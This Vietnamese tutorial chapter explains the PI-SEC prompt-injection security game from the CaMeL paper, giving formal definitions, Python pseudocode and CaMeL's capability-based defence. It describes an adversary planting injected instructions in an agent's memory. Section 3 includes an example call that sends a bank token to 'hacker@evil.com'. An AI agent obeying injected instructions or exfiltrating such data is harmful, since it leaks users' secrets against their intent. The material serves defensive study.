

# Chương 02: Hình Thức Hóa Mô Hình An Ninh — Trò Chơi An Ninh PI-SEC

> **Tham chiếu bài báo gốc:** Section 3 & Section 4 — [arXiv:2503.18813v2](https://arxiv.org/abs/2503.18813)

---

## 1. Tại Sao Cần Hình Thức Hóa Bài Toán An Ninh Cho AI Agent?

Trong phần lớn các nghiên cứu về Prompt Injection trước đây, việc đánh giá an toàn thường dựa trên các định nghĩa mơ hồ mang tính định tính: *"Mô hình có làm theo lệnh độc hay không?"* hoặc *"Tỷ lệ bẻ khóa (Jailbreak rate) là bao nhiêu?"*.

Cách tiếp cận cảm tính này có hai nhược điểm chết người:
1. **Thiếu định nghĩa toán học chính xác:** Thế nào là một hành vi bị xem là "mất an toàn"? Nếu Agent gửi email cho đồng nghiệp theo yêu cầu thì là an toàn, nhưng gửi đúng nội dung đó cho một email lạ do kẻ tấn công cài cắm thì lại là mất an toàn.
2. **Không phân định được ranh giới trách nhiệm:** Khi nào thì lỗi thuộc về kẻ tấn công khai thác lỗ hổng tiêm lệnh, và khi nào thì do người dùng ra lệnh sai hoặc công cụ trả về dữ liệu mơ hồ?

Để giải quyết vấn đề này, nhóm tác giả CaMeL đã tiên phong áp dụng phương pháp luận từ **Lý thuyết Mật mã học và An ninh Phần mềm Cổ điển**: Xây dựng một **Trò chơi An ninh (Security Game)** mang tên **$\text{PI-SEC}$** (*Prompt Injection Security Game*).

---

## 2. Các Thành Phần Cơ Bản Của Hệ Thống

Hệ thống tác tử trong mô hình của CaMeL được trừu tượng hóa bằng các thực thể sau:

1. **Người dùng (User):** Cung cấp câu lệnh ban đầu $\mathsf{prompt}$ từ nguồn đáng tin cậy. Ta giả định rằng người dùng có ý định trong sáng và câu lệnh ban đầu không bị kẻ tấn công can thiệp.
2. **Bộ nhớ / Trạng thái Môi trường ($\mathsf{mem}$):** Không gian dữ liệu đọc/ghi mà các công cụ tương tác (ví dụ: danh sách file trên ổ đĩa, hộp thư đến, số dư tài khoản ngân hàng).
3. **Tập Công cụ ($\mathsf{tools}$):** Tập hợp các hàm/API định sẵn mà tác tử có thể gọi để tương tác với thế giới bên ngoài (ví dụ: `read_file`, `send_email`, `transfer_money`).
4. **Tác tử ($\mathsf{Agent}$):** Một quy trình tính toán nhận đầu vào gồm: câu lệnh $\mathsf{prompt}$, tập công cụ $\mathsf{tools}$, và trạng thái bộ nhớ ban đầu $\mathsf{mem}$. Khi chạy xong, tác tử sinh ra một **Vết Thực Thi ($\mathsf{Trace}$)**:
   $$\mathsf{Trace} = \big\{ (\mathsf{tool}_1, \mathsf{args}_1, \mathsf{mem}_1), (\mathsf{tool}_2, \mathsf{args}_2, \mathsf{mem}_2), \dots, (\mathsf{tool}_k, \mathsf{args}_k, \mathsf{mem}_k) \big\}$$
   Trong đó mỗi phần tử ghi lại: công cụ nào đã được gọi, tham số truyền vào là gì, và trạng thái bộ nhớ tại thời điểm gọi.

---

## 3. Không Gian Hành Động Hợp Lệ ($\Omega_{\mathsf{prompt}}$)

Đối với mỗi câu lệnh $\mathsf{prompt}$, tồn tại một tập hợp các hành động an toàn cho phép, ký hiệu là $\Omega_{\mathsf{prompt}}$.

$$\Omega_{\mathsf{prompt}} = \big\{ (\mathsf{tool}, \mathsf{args}, \mathsf{mem}_{\text{step}}) \mid \text{Hành động này phù hợp với ý định của prompt và không vi phạm an ninh} \big\}$$

- **Ví dụ 1:** Nếu $\mathsf{prompt}$ là *"Hãy đọc email của sếp và tóm tắt lại"*, thì việc gọi `read_email(folder="Inbox")` và `print(summary)` nằm trong $\Omega_{\mathsf{prompt}}$.
- **Ví dụ 2:** Nếu hành động trong vết thực thi xuất hiện `send_email(to="hacker@evil.com", body=token_ngan_hang)`, thì bộ ba này **không thuộc** $\Omega_{\mathsf{prompt}}$ và bị coi là hành vi độc hại.

> [!NOTE]
> Tập $\Omega_{\mathsf{prompt}}$ là một **khái niệm lý thuyết** phục vụ việc định nghĩa an ninh trong bài báo toán học, **hoàn toàn không phải** là một danh sách được hệ thống CaMeL lưu sẵn trong bộ nhớ.

---

## 4. Định Nghĩa Trò Chơi An Ninh $\text{Game PI-SEC}$

Trò chơi an ninh được mô tả giữa hai đối tượng: **Kẻ tấn công ($\mathcal{A}$ - Adversary)** và **Tác tử phòng thủ ($\mathsf{Agent}$)**.



### Thuật toán Trò chơi $\text{Game PI-SEC}(\mathcal{A}, \mathsf{Agent}, \mathsf{tools})$:

```python
def Game_PI_SEC(Adversary, Agent, tools):
    # Bước 1: Trọng tài chọn ngẫu nhiên một câu lệnh người dùng từ tập P
    prompt, Omega_prompt = sample_prompt_and_allowed_actions()

    # Bước 2: Kẻ tấn công được biết prompt và mục tiêu, 
    # tạo ra trạng thái bộ nhớ độc hại mem* (ví dụ: cài prompt injection vào file ghi chú)
    mem_star = Adversary(prompt, Omega_prompt)

    # Bước 3: Tác tử thực thi câu lệnh trên môi trường bị nhiễm độc
    trace = Agent(prompt, tools, mem_star)

    # Bước 4: Kiểm tra vết thực thi xem có hành động vi phạm nào không
    return Verify(trace, Omega_prompt)

def Verify(trace, Omega_prompt):
    for (tool, args, mem_step) in trace:
        if (tool, args, mem_step) not in Omega_prompt:
            return False  # Kẻ tấn công thành công (Vi phạm an ninh!)
    return True           # Hệ thống phòng thủ thành công
```

### Điều kiện Chiến thắng của Kẻ tấn công:
Kẻ tấn công $\mathcal{A}$ giành chiến thắng nếu nó có thể cấu hình trạng thái môi trường $\mathsf{mem}^*$ sao cho khi tác tử thực thi, vết thực thi $\mathsf{Trace}$ chứa **ít nhất một hành động** không thuộc $\Omega_{\mathsf{prompt}}$.

Ngược lại, hệ thống phòng thủ được coi là **An toàn Tuyệt đối theo Thiết kế (Secure by Design)** nếu với mọi kẻ tấn công $\mathcal{A}$, xác suất để kẻ tấn công thắng cuộc bị triệt tiêu về $0$.

---

## 5. Thách Thức Thực Tế: Nghịch Lý Liệt Kê $\Omega_{\mathsf{prompt}}$

Nếu nhìn vào thuật toán trò chơi $\text{PI-SEC}$, cách giải quyết ngây thơ nhất là:
> *"Tại sao ta không liệt kê hết mọi hành động trong $\Omega_{\mathsf{prompt}}$ rồi viết một câu lệnh `if action in Omega: execute() else: block()`?"*

Nhóm tác giả CaMeL khẳng định: **Điều này là bất khả thi trong thực tế** vì:
1. **Không gian tham số vô hạn:** Tham số `args` có thể là bất kỳ chuỗi văn bản, con số, đoạn mã, hoặc định dạng JSON nào.
2. **Tính phụ thuộc ngữ cảnh:** Một hành động gửi email có an toàn hay không phụ thuộc vào việc người nhận có quyền xem tệp đính kèm hay không — điều này chỉ được xác định khi các tệp tin được đọc trong thời gian chạy (runtime).
3. **Mất tính linh hoạt của AI:** Nếu phải liệt kê cứng mọi hành động được phép, ta sẽ quay trở lại thời kỳ của các kịch bản lập trình cố định (Hardcoded Rule-based Systems) và đánh mất hoàn toàn khả năng giải quyết vấn đề thông minh của LLM.

---

## 6. Lời Giải Của CaMeL: Thay Thế Liệt Kê Bằng Chính Sách & Thẻ Quyền

Thay vì cố gắng liệt kê danh sách tĩnh $\Omega_{\mathsf{prompt}}$, kiến trúc CaMeL giải bài toán này bằng cách đưa vào hai công cụ động:
1. **Phân tách luồng điều khiển (Control Flow) bằng Dual-LLM:** Đảm bảo cấu trúc các bước gọi công cụ chỉ bắt nguồn từ câu lệnh tin cậy của người dùng.
2. **Cơ chế Thẻ Thẩm quyền (Capabilities) & Chính sách An ninh (Security Policies):** Đảm bảo mỗi khi một công cụ được gọi với tham số `args`, bộ thông dịch sẽ kiểm tra các điều kiện an ninh toán học dựa trên nguồn gốc của biến số đó.

Trong chương tiếp theo, chúng ta sẽ mổ xẻ chi tiết 6 khối kiến trúc cốt lõi của CaMeL và cách thức các khối này phối hợp để giải bài toán $\text{PI-SEC}$.
